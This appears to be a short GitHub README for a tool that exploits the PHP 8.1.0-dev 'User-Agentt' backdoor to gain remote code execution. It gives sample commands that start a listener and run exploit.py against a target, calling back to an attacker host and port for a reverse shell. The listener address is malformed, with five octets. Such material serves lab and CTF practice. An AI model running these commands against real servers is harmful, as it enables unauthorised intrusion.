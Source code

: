 # php-8.1.0-dev-backdoor-rce
A script that exploits the User-Agentt HTTP header to provide remote code execution on a webserver running php-8.1.0-dev.

For more information about this vulnerability, see Flast101's post: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/


### Example usage

listener.py (if you're lacking netcat)

```shell

python3 ./listener.py -l 10.69.42.1.15 -p 1337

```


exploit.py

```shell

python3 ./exploit.py --URL http://10.129.44.132 --RPORT 80 --LHOST 10.69.42.1.15 --LPORT 1337

```
